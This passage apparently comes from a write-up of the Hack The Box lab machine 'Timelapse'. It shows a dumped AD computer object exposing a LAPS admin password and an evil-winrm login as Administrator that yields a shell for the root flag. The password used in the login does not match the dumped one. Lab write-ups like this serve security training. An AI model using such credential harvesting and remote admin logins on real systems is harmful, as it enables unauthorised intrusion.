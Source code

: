```shell
lastLogon                            : 133016279609409837
LastLogonDate                        : 7/6/2022 5:38:38 PM
lastLogonTimestamp                   : 133016279187691001
localPolicyFlags                     : 0
Location                             :
LockedOut                            : False
logonCount                           : 138
ManagedBy                            :
MemberOf                             : {}
MNSLogonAccount                      : False
Modified                             : 7/6/2022 5:39:05 PM
modifyTimeStamp                      : 7/6/2022 5:39:05 PM
ms-Mcs-AdmPwd                        : 3i92{K87u45/SPb&63OUm9nL
ms-Mcs-AdmPwdExpirationTime          : 133020599453159751
msDFSR-ComputerReferenceBL           : {CN=DC01,CN=Topology,CN=Domain System Volume,CN=DFSR-GlobalSettings,CN=System,DC=timelapse,DC=htb}
msDS-GenerationId                    : {209, 176, 121, 109...}
msDS-SupportedEncryptionTypes        : 28
msDS-User-Account-Control-Computed   : 0
```
Then I used these credentials to log on as a Local Admin and retrieve the root flag: 
```
ruby /home/adri/Desktop/adri/utils/evil-winrm/evil-winrm.rb -u Administrator -p 'i{dQA#a.I7Zx,CW!74NUAm63' -i 10.10.11.152 -S

Evil-WinRM shell v3.4

Warning: SSL enabled

Info: Establishing connection to remote endpoint

*Evil-WinRM* PS C:\Users\Administrator\Documents> cd ..
```
I had to search for the root flag using the dir command. 

